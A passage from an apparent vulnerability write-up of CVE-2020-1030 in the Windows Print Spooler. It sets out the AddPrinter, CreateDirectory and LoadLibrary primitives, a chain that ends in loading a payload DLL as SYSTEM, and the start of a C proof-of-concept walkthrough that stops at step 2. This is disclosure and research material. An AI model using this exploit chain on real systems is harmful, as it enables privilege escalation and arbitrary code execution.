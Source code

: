 ### Primitives
More formally, the primitives were:
1. **[`AddPrinter`](https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinter) primitive** - retrieve privileged printer handle to enable [Spooler API](https://docs.microsoft.com/en-us/windows/win32/printdocs/print-spooler-api) calls. Primitive found in the way that Windows operates.
2. **[`CreateDirectory`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createdirectorya) primitive** - create an arbitrary directory as `SYSTEM` and subsequently assign *WriteData* permissions for all users. Primitive found in `localspl!BuildPrinterInfo`. 
3. **[`LoadLibrary`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexw) primitive** - Taking advantage of Spooler's [point and print](https://docs.microsoft.com/en-us/windows-hardware/drivers/print/point-and-print-dlls) functionality that provides the ability to load a DLL found in specific sanctioned paths,  `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`. Primitive found in `localspl!SplLoadLibraryTheCopyFileModule`.

### Implementation
The primitives were used in the [PoC](https://github.com/Accenture/AARO-Bugs/blob/master/CVE-2020-1030/poc.c) in the following order to accomplish arbitrary 
code execution. 

```mermaid

graph TD;

 a[AddPrinter] --> |SetPrinterDataEx - SpoolDirectory=NewPath| b["LoadLibrary(AppVTerminator.dll)"] --> |Restart spooler| c["CreateDirectory(NewPath)"] --> |"MoveFile(payload.dll)"| d["LoadLibrary(payload.dll)"];

```

Here is a quick walk through of the poc code:

1. Add a new printer and select a standard preinstalled driver (*pDriverName = "Microsoft Print to PDF"*)

```c
LPWSTR pszPrinterName = L"CVE-2020-1030";
LPWSTR pszDriverPath = L"C:\\Windows\\System32\\spool\\drivers\\x64\\4";
LPWSTR pszTerminator = L"C:\\Windows\\System32\\AppVTerminator.dll";

memset(&printerInfo, 0, sizeof(printerInfo));
printerInfo.pPrinterName = pszPrinterName;
printerInfo.pDriverName = L"Microsoft Print To PDF";
printerInfo.pPortName = L"PORTPROMPT:";
printerInfo.pPrintProcessor = L"winprint";
printerInfo.pDatatype = L"RAW";
printerInfo.Attributes = PRINTER_ATTRIBUTE_HIDDEN;

hPrinter = AddPrinter(NULL, 2, (LPBYTE)&printerInfo);
```

2. Set the *SpoolDirectory* to the directory path you want to create *pszDriverPath* that aligns with the `LoadLibrary` primitive using `SetPrinterDataEx`. In this case `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\4`.
